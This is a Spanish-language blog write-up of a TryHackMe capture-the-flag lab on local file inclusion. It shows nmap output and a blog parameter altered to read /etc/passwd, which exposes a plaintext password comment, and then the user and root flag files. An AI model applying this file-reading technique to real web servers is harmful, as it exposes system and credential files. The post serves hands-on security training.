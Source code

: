 ```yaml
---
layout: post
title: Tryhackme - LFI inclusion
autor: S3cureroy
date: 2022-08-08
categories: [CTF, Tryhackme]
tags: [ LFI , enumeración , web , passwd ]
---
```


La entrada de la máquina LFI Inclusión de Tryhackme es corta, puesto que realmente, no se deben seguir los pasos habituales, como la intrusión y posterior escalada de privilegios.

Esta máquina sirve para desarrollar una técnica en concreto, y además, no dispone de medidas de seguridad que permitan filtrar la petición que se envía al servidor, por lo que facilita mucho el compromiso.

---

## Enumeración.

Como la mayoría de las máquinas, se comienza ejecutando una enumeración de los servicios y puertos mediante la herramienta **nmap**, obteniendo los puertos pertenecientes a SSH y HTTP.

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-27 09:31 EDT
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 50.60% done; ETC: 09:31 (0:00:01 remaining)
Stats: 0:00:09 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 09:31 (0:00:06 remaining)
Nmap scan report for 10.10.57.141
Host is up (0.052s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.23 seconds
```

### WEB.
 
Entrando mediante el protocolo HTTP se observa que hay desplegado un blog, y revisando todos los enlaces disponibles, se accede a http://10.10.143.249/article?name=lfiattack

El parámetro "lfiattack" da pistas de qué hay que modificar, y cambiándolo por la ruta relativa de **/etc/passwd**, se obtiene el contenido del fichero.  
![LFI1][LFI1] 

```
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin 
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin 
syslog:x:102:106::/home/syslog:/usr/sbin/nologin 
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin 
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin 
lxd:x:105:65534::/var/lib/lxd/:/bin/false 
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin 
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin 
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin 
pollinate:x:109:1::/var/cache/pollinate:/bin/false 
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash 
#falconfeast:rootpassword sshd:x:110:65534::/run/sshd:/usr/sbin/nologin 
mysql:x:111:116:MySQL Server,,,:/nonexistent:/bin/false 
```

En el listado de usuarios se observa que existe el usuario **falconfeast** con uid 1000 y que además, tiene el directorio principal en la ruta /home/falconfeast. 

Se busca la flag del usuario en dicho directorio (se presupone que el fichero se llama user.txt, teniendo suerte y obteniendo **60989655118397345799**)   

![LFI2][LFI2]

## Flag de root.

Habiendo tenido suerte, se decide buscar la flag de root, suponiendo que ésta se encuentra en el directorio principal que aparece en el listado, y que el nombre del fichero es **root.txt**, obteniendo el siguiente flag (**42964104845495153909**)  

![LFI3][LFI3]

Como se puede ver, en este caso no es necesario escalar privilegios, ya que el propio usuario que corre el servicio web tiene permisos para ver el contenido del directorio root.

Sé que en esta situación, se podría intentar obtener una clave privada SSH, probar la contraseña "rootpassword" del comentario que se encuentra en el fichero passwd, o incluso probar otros métodos de acceso a la máquina.

Como se obtienen las dos flags mediante el método para el que está concebida la máquina, no lo considero necesario.

Espero que os haya gustado, y recordad las redes sociales si queréis contactar conmigo.

Salu2!!!

[LFI1]: https://i.imgur.com/BNTwheR.png
[LFI2]: https://i.imgur.com/NkRmwtQ.png
[LFI3]: https://i.imgur.com/tpTBd3M.png